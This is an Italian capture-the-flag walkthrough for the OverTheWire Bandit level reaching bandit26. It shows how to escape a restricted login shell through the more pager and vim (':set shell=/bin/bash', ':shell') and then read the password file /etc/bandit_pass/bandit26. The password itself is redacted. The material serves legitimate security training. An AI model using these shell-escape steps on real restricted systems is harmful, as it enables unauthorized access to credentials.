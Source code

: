 ### ### 🎯 Obiettivo
Accedere come `bandit26`. L’utente `bandit26` ha come shell `/usr/bin/showtext` (non una bash interattiva). Scopri che fa questo programma, come funziona `more` in quel contesto e come "sfuggire" alla shell restrittiva per leggere la password in `/etc/bandit_pass/bandit26`.

### ### 💻 Comandi principali (estratto)
```bash
# verificare la shell impostata per bandit26
cat /etc/passwd | grep bandit26
# → mostra /usr/bin/showtext (o simile)

# leggere il binario/script showtext
cat /usr/bin/showtext
# esempio output:
# #!/bin/sh
# export TERM=linux
# exec more ~/text.txt
# exit 0

# copiare la chiave SSH fornita dall'utente precedente
scp -P 2220 bandit25@bandit.labs.overthewire.org:~/bandit26.sshkey .

# connettersi usando la chiave privata
ssh -i bandit26.sshkey -p 2220 bandit26@bandit.labs.overthewire.org

# una volta dentro, usare i comandi per interagire con more/vim:
# - ridurre la dimensione del terminale (per abilitare modalità "more -> v -> vim" su alcuni server)
# - quando compare "--More--", premere 'v' per aprire vim (modalità visual editor)
# dentro vim:
# :set shell=/bin/bash
# :shell
# ora si è in una shell bash interattiva

# ALTERNATIVA (dentro vim): :e /etc/bandit_pass/bandit26
# oppure, una volta in shell:
cat /etc/bandit_pass/bandit26
# → [REDACTED]
```

### ### 🧠 Spiegazione
- `/usr/bin/showtext` invoca `more ~/text.txt`, fornendo un'interfaccia di sola lettura.  
- `more` spesso permette di avviare un editor (premendo `v`) aprendo il file con `vi`/`vim`. In molte installazioni `more` lancia l'editor impostato dalla variabile d'ambiente `$EDITOR` o usa `vi`.  
- In `vim` si può cambiare temporaneamente la shell con `:set shell=/bin/bash` e poi eseguire `:shell` per ottenere una vera shell interattiva (breakout). Da lì puoi leggere `/etc/bandit_pass/bandit26`.  
- Su alcuni client Windows (PowerShell) il comportamento può bloccarsi — usare cmd.exe o un terminale POSIX-like per evitare problemi.

### ### 🪄 Takeaway
- I visual pager/editor possono essere vettori di “escape” da shell limitate: impara le scorciatoie (`v`, `:shell`, `:e`) per trasformare un viewer in una shell.  
- Se hai una chiave privata (`.sshkey`) fornita dal livello precedente, scaricala con `scp` e usa `ssh -i` per autenticarti.  
- Tratta sempre le chiavi private come sensibili: `chmod 600` localmente e non committarle.  
- Attenzione a PowerShell su Windows: preferisci cmd o un terminale che emuli POSIX per evitare incompatibilità con escape tramite `more`/`vim`.

---